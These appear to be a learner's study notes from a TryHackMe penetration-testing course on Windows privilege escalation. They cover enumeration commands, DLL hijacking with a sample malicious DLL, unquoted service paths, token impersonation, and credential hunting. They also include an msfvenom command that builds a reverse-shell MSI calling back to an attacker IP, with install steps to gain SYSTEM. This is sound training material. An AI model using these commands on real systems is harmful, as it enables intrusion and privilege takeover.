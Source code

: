 # TryHackMe: Jr. Penetration Tester

* **author**:: Nathan Acks  
* **date**:: 2022-04-21

## Windows PrivEsc

### Introduction

Common Windows user levels:

* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here's a useful checklist:

* [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Information Gathering

* `whoami /priv` - current user + privileges
* `net user` - list all (local) users
* `net user $USERNAME` - get details for user `$USERNAME`
* `net localgroup` - list all (local) groups
* `net localgroup $GROUP` — list user in group `$GROUP`
* `query session` - list other users who are currently logged in
* `systeminfo` - return system info
* `hostname` - return system hostname
* `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
* `schtasks` - list scheduled tasks
* `driverquery` - list installed drivers
* `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we'd hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

* [Using "netstat"](../notes/netstat.md)

### Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Metasploit](../notes/metasploit.md)

Notes:

* WinPEAS is detected and quarantined by Microsoft Defender by default.
* PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
* Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker's machine.
* The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

### Vulnerable Software

* `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
* `wimc service list brief` - another way of listing services

### DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this *can* be done on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows *also* comes with `wget`!

```powershell
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

* [Exploiting LD_PRELOAD](../notes/exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](../notes/exploiting-ld-library-path.md)

### Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\service.exe`
* `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```powershell
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces *and* are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn't good about displaying permissions for users who have *multiple* applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (*all* of which will be applied!).

Find a file in Windows:

```powershell
dir $FILE_NAME /S
```

* [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

### Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability *technically* still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you've gotten lucky.)

Exploits in this family are typically named "X Potato" after the first exploit, "Hot Potato".

### Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated`  is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.
